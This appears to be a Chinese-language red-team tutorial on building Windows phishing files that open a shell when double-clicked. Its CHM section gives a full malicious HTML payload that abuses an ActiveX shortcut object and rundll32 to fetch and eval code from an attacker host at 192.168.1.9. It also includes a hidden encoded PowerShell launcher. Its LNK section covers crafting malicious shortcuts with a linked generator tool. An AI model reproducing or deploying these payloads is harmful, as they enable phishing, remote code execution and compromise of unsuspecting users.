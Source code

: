 Windows支持的可直接执行文件后缀有


>exe pif com cmd scr (jar等需要安装三方软件包不在考虑中)


#### 那些双击就可弹shell的文件们

##### CHM 

chm已经是很古老的一种玩法了，最初的都在用chm中挂马钓鱼,所以chm也是一种比较敏感的文件类型。

随着ithurricanept发现chm可以直接执行任意代码起来，又有一轮新的利用chm钓鱼的apt攻击被人发现。

这里使用evi1cg的方法来钓

> Refer:https://evi1cg.me/archives/chm_backdoor.html

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
This is a demo ! <br>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.1.9:8000/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

connect写入自己的hta代码即可　不使用JsRat也是可以的

Example

```
var c= 'powershell -noP -sta -w 1 -enc  base64'
new ActiveXObject('WScript.Shell').Run(c);
```


##### Lnk
  快捷方式也是经常利用来钓鱼的一种方法，比起nishang里面的payload，phrozen的参数隐藏payload让被攻击者会更容易相信，所以这里采用phrozen的payload

> refer:https://www.phrozen.io/page/shortcuts-as-entry-points-for-malware-part-2

```
Shortcut_gen.exe test.txt sb.lnk
```

在test.txt写入你的payload　也可以用phrozen的py将你的exe专成vbs的,但是发现payload越短越好，太大的话会超过lnk的最大大小，导致payload使用失败。
这里我使用的是powershell的payload
附上Shortcut_gen的下载地址

https://raw.githubusercontent.com/CaiJiJi/Tools/master/Shortcut_gen.exe
